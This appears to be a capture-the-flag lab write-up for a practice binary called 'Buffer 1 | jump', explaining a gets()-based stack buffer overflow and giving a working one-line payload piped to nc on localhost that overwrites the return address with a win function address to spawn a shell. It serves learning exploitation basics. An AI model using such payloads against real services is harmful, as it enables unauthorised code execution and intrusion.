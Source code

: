 ref: 0 | Buffer 1 | jump
===========================

General overview of problems faced
-------------------------------------
- I had to learn how to send hex values as input
- I had an issue figuring out why I was not getting a shell even if my exploit was correct.

List of vulnerabilities
--------------------
1. The input for the user's response to the question is taken using gets which allows for arbitrary length input. Therefore the fixed buffer used to take the response can overflow and you are able to overwrite the return address.

Steps to exploit
------------------
1. Get the win function pointer by running the program.
2. Enter exactly 64 bytes of text and then append the win function address in little endian format. This will overwrite the return address to point to the win function.
3. You now have a shell!

Script/Command used
------------------
```
<!-- Location to jump to: 0x80491d2 -->
(python -c 'print(("A"*64)+"\xd2\x91\x04\x08")'; cat ) | nc localhost 5001
```
